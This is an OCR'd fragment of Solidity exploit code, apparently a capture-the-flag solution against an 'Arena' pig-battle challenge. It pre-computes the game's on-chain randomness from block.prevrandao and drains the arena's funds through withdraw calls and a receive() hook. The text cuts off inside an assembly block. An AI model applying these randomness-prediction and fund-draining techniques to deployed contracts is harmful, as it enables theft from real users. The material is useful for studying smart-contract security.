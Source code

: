 ```solidity
        vm.startPrank(system, system);
        challenge.arena().processBattle(_rand());
        vm.stopPrank();
    }
}

contract MyAgent {
    function acceptBattle(address, uint256) external pure returns (bool) {
        return true;
    }

    function tick(
        address,
        uint256,
        uint256,
        Arena.Pig[] memory fromPigs,
        Arena.Pig[] memory toPigs
    ) external returns (uint256 fromWhich, uint256 toWhich, uint256 r) {
        fromWhich = 0;
        toWhich = 0;
        uint256 maxAttack = 0;
        for (uint256 i = 0; i < fromPigs.length; i++) {
            if (fromPigs[i].health > 0 && fromPigs[i].attack > maxAttack) {
                maxAttack = fromPigs[i].attack;
                fromWhich = i;
            }
        }
        maxAttack = 0;
        for (uint256 i = 0; i < toPigs.length; i++) {
            if (toPigs[i].health > 0 && toPigs[i].attack > maxAttack) {
                maxAttack = toPigs[i].attack;
                toWhich = i;
            }
        }
        uint256 seed = Randomness(Arena(msg.sender).randomness()).random();
        r =
            uint256(
                keccak256(
                    abi.encodePacked(
                        uint256(block.prevrandao),
                        address(msg.sender),
                        seed
                    )
                )
            ) %
            100; // next value pre-calculated
    }
}

contract MyEOAImplementation {
    function gogogo(address arena) external {
        Arena(arena).transfer(address(0), 1); // to warm up the storage slot following https://github.com/ethereum/EIPs/blob/master/EIPS/eip-2929.md
        Arena(arena).withdraw(Arena(arena).balanceOf(address(this)));
        Arena(arena).withdraw(address(arena).balance);
    }

    receive() external payable {
        assembly {
            // » chisel  
            // ➜ keccak256("transfer(address,uint256)") // selector calculation
            // Type: bytes32
            // └ Data: 0xa9059cbb2ab09eb219583f4a59a5d0623ade346d962bcd4e46b11da047c9049b
```